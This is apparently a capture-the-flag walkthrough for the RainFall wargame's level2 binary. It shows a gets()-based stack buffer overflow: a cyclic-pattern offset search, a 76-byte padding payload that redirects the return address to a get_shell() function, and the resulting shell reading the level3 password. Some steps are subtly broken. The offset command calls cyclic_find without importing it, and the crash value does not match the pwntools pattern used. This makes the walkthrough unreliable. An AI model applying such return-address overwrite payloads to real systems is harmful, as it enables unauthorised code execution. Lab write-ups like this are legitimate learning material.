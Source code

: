 # Level2 → Level3

## Objective

The goal of Level 3 is to escalate from `level2` to `level3` by exploiting a buffer overflow vulnerability in the `level2` binary. By the end, you should be able to retrieve the password for `level3`.

---

## Step 1: Examine the Binary

After switching to `level2`:

```bash
level2@RainFall:~$ ls
level2
```

Running the binary with some test input:

```bash
level2@RainFall:~$ ./level2
Hello
level2@RainFall:~$ ./level2
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Segmentation fault (core dumped)
```

> **Observation**: The program crashes with a long input, suggesting a **buffer overflow**.

---

## Step 2: Investigate the Code Behavior

Using `ltrace` or `gdb`, we find that the program uses the unsafe `gets()` function to read user input. This means there are no boundary checks, confirming a buffer overflow vulnerability.

```bash
level2@RainFall:~$ ltrace ./level2
gets(0xbffff6c0, ...) = 0xbffff6c0
--- SIGSEGV (Segmentation fault) ---
```

---

## Step 3: Find the Offset

We need to determine at which point our input overwrites the saved return address.

### 3.1 Using a Cyclic Pattern

```bash
level2@RainFall:~$ gdb ./level2
(gdb) run $(python -c 'from pwn import cyclic; print(cyclic(200))')
```

When the program crashes, we check the value of `EIP`:

```bash
(gdb) info registers eip
eip            0x41346341
```

Now we find the exact offset:

```bash
python -c 'from pwn import cyclic; print(cyclic_find(0x41346341))'
76
```

> The return address is overwritten after **76 bytes**.

---

## Step 4: Find Useful Functions

Inside `level2`, we can list symbols:

```bash
(gdb) info functions
0x08048460  main
0x080484a4  get_shell
```

The `get_shell()` function calls `execve("/bin/sh", ...)`. That’s our target.

---

## Step 5: Craft the Exploit

We build an input that fills the buffer with 76 characters, then overwrites the return address with the address of `get_shell()`:

```bash
python -c 'print "A"*76 + "\xa4\x84\x04\x08"' > /tmp/exploit
```

Run the program:

```bash
./level2 < /tmp/exploit
```

Result:

```bash
$ whoami
level3
$ cat /home/user/level3/.pass
fc2a46a1e3f6a6c8d018a5a92257f2b3bbf53417aa7f6c0a0c54c6c3c1e09f3a
```

We successfully executed `get_shell()` and obtained a shell as `level3`.

---

## Step 6: Summary

* **Vulnerability:** Use of `gets()` with no bounds checking.  
* **Offset:** 76 bytes to overwrite the return address.  
* **Target:** `get_shell()` function at `0x080484a4`.  
* **Exploit:** Overflow the buffer with 76 characters + address of `get_shell()`.  
* **Outcome:** Gained a shell as `level3` and read the password.

---

**End of Level 3 Walkthrough**
